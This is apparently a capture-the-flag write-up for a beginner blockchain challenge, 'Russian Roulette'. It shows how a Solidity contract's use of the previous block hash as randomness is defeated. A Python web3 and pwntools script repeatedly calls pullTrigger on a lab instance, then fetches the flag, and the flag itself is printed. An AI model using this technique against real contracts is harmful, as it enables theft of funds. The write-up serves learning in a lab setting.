









# Russian Roulette

> Difficulty: Very Easy
>
> Welcome to The Fray. This is a warm-up to test if you have what it takes to tackle the challenges of the realm. Are you brave enough?

Solution:

We are given with two files:
1. `Setup.sol`
2. `RussianRoulette.sol`

And the ability to spawn two Docker instances, which is for the RPC to connect to the blockchain and netcat to interact with the challenge instance.

Looking at the files, it uses version `0.8.23` to compile.



Though I currently have an old one



So I went to https://remix.ethereum.org/ 



Then changed the compiler version to `0.8.23`



Then I uploaded the contracts from earlier



Based on the code, the goal of the challenge is to call `pullTrigger()`, pass the logical condition, and execute `selfdestruct` in order to get the flag.

To pass the logical condition, it:
1. Retrieves the current block number then subtracts 1 to get previous block number `block.number - 1`
2. The block hash of the previous block number is then retrieved `blockhash(block.number - 1)`
3. It then converts it into an unsigned integer `uint256(blockhash(block.number - 1))`
4. It's modulus is then taken by 10 `uint256(blockhash(block.number - 1)) % 10 `
5. And lastly, it check if it's equal to 7 `uint256(blockhash(block.number - 1)) % 10 == 7`

Since we're sending a transaction, we need to get the ABI first (solidity compiler > compile > copy abi)



Now that we have the ABI, let's retrieve the challenge contract



Cool, we were given the private key as well. We can restart when needed and get the flag later.

Let's check if we have a balance first

```python
from web3 import Web3

# Connect to HTB's Ethereum node
htbRPC = 'http://83.136.249.247:31125/'
web3 = Web3(Web3.HTTPProvider(htbRPC))

# Setting up account
privateKey = 'redacted'
account = web3.eth.account.from_key(privateKey)

balance = web3.from_wei(web3.eth.get_balance(account.address), 'ether')

print(f"Balance: {balance}")
```



Nice, we have 5000 testnet ETH

So what we want to do is send transactions until the trigger value of 7 is met then retrieve the flag afterwards

```python
from web3 import Web3
from pwn import *
import time
import warnings

warnings.filterwarnings("ignore", category=BytesWarning)

# Connect to HTB's Ethereum node
htbRPC = 'http://83.136.249.247:31125/'
web3 = Web3(Web3.HTTPProvider(htbRPC))

# Setting up account
privateKey = 'redacted'
account = web3.eth.account.from_key(privateKey)

# Challenge contract address
targetContractAddress = Web3.to_checksum_address('0x3c050716Cb53807E520d8577D229f737952c62e4')

# Contract ABI from Remix
contractABI = [
	{
		"inputs": [],
		"stateMutability": "payable",
		"type": "constructor"
	},
	{
		"inputs": [],
		"name": "pullTrigger",
		"outputs": [
			{
				"internalType": "string",
				"name": "",
				"type": "string"
			}
		],
		"stateMutability": "nonpayable",
		"type": "function"
	}
]

# Create the contract instance
contract = web3.eth.contract(address=targetContractAddress, abi=contractABI)

def sendTx():
    # Estimate gas to call pullTrigger
    gasEstimate = contract.functions.pullTrigger().estimate_gas({'from': account.address})

    # Prepare the transaction to call pullTrigger
    transaction = contract.functions.pullTrigger().build_transaction({
        'from': account.address,
        'nonce': web3.eth.get_transaction_count(account.address),
        'gas': gasEstimate,
        'gasPrice': web3.eth.gas_price
    })

    # Sign the transaction
    signedTxn = web3.eth.account.sign_transaction(transaction, private_key=privateKey)

    # Send the transaction
    txnHash = web3.eth.send_raw_transaction(signedTxn.rawTransaction)

    # Wait for the transaction receipt
    txnReceipt = web3.eth.wait_for_transaction_receipt(txnHash)

    print(f'Transaction successful with hash: {txnReceipt.transactionHash.hex()}')

def retrieveFlag():
    conn = remote('83.136.249.247', 49091)
    conn.sendlineafter('action? ', '3')
    print(conn.recvline().decode())
    conn.close()

while True:
    currentBlock = web3.eth.get_block_number()
    previousBlockHash = web3.eth.get_block(currentBlock - 1).hash
    triggerValue = int(previousBlockHash.hex(), 16) % 10

    print(f"Current block: {currentBlock} -> Previous block hash: {previousBlockHash.hex()} -> Trigger value: {triggerValue}")

    sendTx()

    time.sleep(1)

    if triggerValue == 7:
        print('Retrieving flag...')
        retrieveFlag()
        break
```

Now let's run it!



Boom!

Flag: `HTB{99%_0f_g4mbl3rs_quit_b4_bigwin}`
